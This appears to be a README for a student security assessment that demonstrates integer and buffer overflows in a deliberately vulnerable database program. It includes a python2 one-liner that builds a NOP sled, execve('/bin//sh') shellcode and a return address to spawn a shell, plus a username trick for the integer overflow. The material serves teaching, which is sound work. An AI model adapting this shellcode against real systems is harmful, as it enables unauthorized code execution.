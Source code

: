 # CCSEP-Overflow-Demo
Demo of Integer and Buffer overflow within a simple database program

"op" is the unpatched program
- run via "./op"

"oup" is the unpatched program
- run via "./oup"

To buffer overflow the unpatched program:
- make
- gdb oup
- python2 -c 'print("\x90"*159 + "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05" + "\x90" * 50 + "\x90\xdd\xff\xff\xff\x7f")' >exploit.txt
- r < exploit.txt
Note: This will be PC specific as it relies on memory addresses but I included it here incase it works for you and for my own benefit.

To integer overflow the unpatched program:
- Input a 16 character username then login with that username to receive a shell.

Known Issue:
- The unpatched program will ask for a username and then display the menu and run the add_user method again, which will change the database adding a blank user every time gets is called once because it is within the menu while loop. I have attempted to remedy this problem but I've not found a solution and put it down to something to do with the gets() method itself as it does not occur on the patched version. The exploits still behave as they should and the program demonstrates each appropriately enough for the purposes of this assessment.
